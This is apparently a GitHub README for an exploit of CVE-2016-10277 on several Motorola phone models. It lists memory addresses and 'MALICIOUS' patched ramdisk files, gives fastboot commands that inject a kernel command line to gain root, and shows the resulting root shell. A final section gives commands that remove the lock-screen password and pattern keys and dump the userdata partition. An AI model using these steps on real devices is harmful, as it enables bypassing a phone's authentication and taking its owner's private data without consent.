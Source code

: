 # Exploiting CVE-2016-10277
More information at: https://alephsecurity.com/2017/06/07/initroot-moto/

If you just want to check if your device is vulnerable, 
it might be quicker if you just flash stock ramdisk (without any modifications). 
If it's your case, just look for ``initroot-*-STOCK*.cpio.gz``.

## Motorola XT-1033
- Scratch Address: 0x11000000
- Padding: 64MB
- Stockrom padded ramdisk: initroot-xt1033-p64-STOCK.cpio.gz
- Stockrom patched and padded ramdisk: initroot-xt1033-p64-MALICIOUS.cpio.gz

## Motorola XT-1040
- Scratch Address: 0x11000000
- Padding: 64MB
- Stockrom padded ramdisk: initroot-xt1040-p64-STOCK.cpio.gz
- Stockrom patched and padded ramdisk: initroot-xt1040-p64-MALICIOUS.cpio.gz

## Motorola XT-1068
- Scratch Address: 0x11000000
- Padding: 64MB
- Stockrom padded ramdisk: initroot-xt1068-p64-STOCK.cpio.gz
- Stockrom patched and padded ramdisk: initroot-xt1068-p64-MALICIOUS.cpio.gz

## Motorola XT-1069
- Scratch Address: 0x11000000
- Padding: 64MB
- Stockrom padded ramdisk: initroot-xt1069-p64-STOCK.cpio.gz
- Stockrom patched and padded ramdisk: initroot-xt1069-p64-MALICIOUS.cpio.gz

## Running and cheking root access: 
  - Flashing and solving bootloops: 
  
        git clone https://github.com/leosol/initroot.git
        cd xt1040 (or any other folder)
        use ./run-malicious.sh, run-stockramfs.sh and solve-bootloop.sh (if you have any bootloop)
        Or use the following commands:
		fastboot flash aleph $FILE_NAME
		fastboot oem config fsg-id "a initrd=SCRATCH+PAD,LENGTH"
		fastboot continue
		#use the following to solve bootloops
		fastboot oem config fsg-id ""

  - Checking root privileges:   
  
        root@debian-vaio:~/motoramfs/xt1040# adb devices
        List of devices attached
        * daemon not running. starting it now on port 5037 *
        * daemon started successfully *
        T0092020C5	device

        root@debian-vaio:~/motoramfs/xt1040# adb shell
        root@peregrine:/ # getenforce
        >Permissive

  - What can I do with root?   

        #remove authentication as pointed out by @kraftdenker (tested on xt1068)
        mv /data/system/gatekeeper.password.key /data/system/_gatekeeper.password.key
        mv /data/system/gatekeeper.pattern.key /data/system/_gatekeeper.pattern.key

        #dump your data
        adb pull /dev/block/platform/msm_sdcc.1/by-name/userdata

        #or make it permanent


